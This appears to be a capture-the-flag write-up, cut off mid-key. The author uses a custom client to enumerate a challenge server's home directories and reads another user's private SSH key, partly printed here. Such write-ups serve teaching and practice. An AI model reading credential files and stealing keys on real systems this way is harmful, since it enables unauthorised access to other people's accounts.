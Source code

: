 ## Solution

The final task is here. Somehow we need to upgrade our access to the LP and track down where `psuser` is sending data.

***Note**: Once Task 10 had been solved, there was no way to spin up the infrastructure again. I did not save everything needed to recreate the scenario, so some things like the contents of directories may differ from the actual LP server. I did save the important files so the write-up should not be severely impacted.*

### Enumeration 

In task 9 we found that we could specify a directory to list. We also have a way to upload and cat files. We should be able to use this to poke around on the LP and see if we can find something that gets us a better interface into the LP. 

The parser output was fine for task 9, but now we need to remove all of the excess information and just print out the stuff we care about. The new [client.py](client.py) is much cleaner. Using this new client I started looking around and found several home directories: The contents of `lpuser` were all readable, but the contents of the others were not.

There are many things to look for when enumerating a home directory like SSH keys and password back-ups. `lpuser` happens to have a readable private/public RSA key pair that we can steal in its `.ssh/` directory!

```bash
$ python3 client.py
```
```
> ls /home/
local.adm\x00
lpuser\x00
lpuser\x00
psuser\x00
ssm-user\x00
ubuntu\x00
> ls /home/lpuser
.gnupg\x00
.bashrc\x00
.local\x00
lp\x00
.bash_logout\x00
.lesshst\x00
.ssh\x00
.profile\x00
.selected_editor\x00
.cache\x00
.bash_history\x00
> ls /home/lpuser/.ssh
id_rsa\x00
authorized_keys\x00
id_rsa.pub\x00
> cat /home/lpuser/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAnd8jzrWQioMrWK1JwvpXTgS/gY7xCF5ADj8Ea+FmSVtPzTuy
tz/WRjuxktjVONODFfdcvM42FdOEc4nvkbKz+WGRDmb+JJCX30saxMQHvL68SwdL
UpA/U7oFhTb4olg3dxOpJ4fspqC7/e7J/rh/VLDdNIN0DaWc93NuPyatgvoD260/
ZjHaEkitlO4Sd51M7KBYTQWZWkeDAQdp9Nne6EWCxsErq97Wqn+JynmOzTiRgvve
di88oAtfRK44+f53Bct98ZzKG07CBkykF3XxH1J9MbwhNhKM9DGOxCo3eNZrie1N
9NPPV6aPZ3JF/1ShqhIrYmwzihFPYExYCfjB/wIDAQABAoIBAECxeBL1BE4+gjzM
hjWIMM6f03pcARnUxZsQ59btfuUArisEE7BUUJJnU9VBVd77jfQqca5NMoyvKM/P
7oReHrJK8Q5d1jdVqWaveEC5tBH8d1ynmI403j6JNEnqxOiCDfiV7fNtF+UQaPke
KVhgco1aDMvAMoaFH1Wnz73BM8k/1h75kH2IWkWxEMcg6/ao8OGbdQM+4hESNOPV
6945AE+tRjTVl1tU2McOSF/tyqiK7qdLYQyRhEd3QAcx5lupAABTESsmOp2ggpTY
qa6wjG/HFSYpvojVTNxkIRz9b9T33HAi3lV6bu2cWiMRK7qcbIfvDOQqBdXrhv/t
```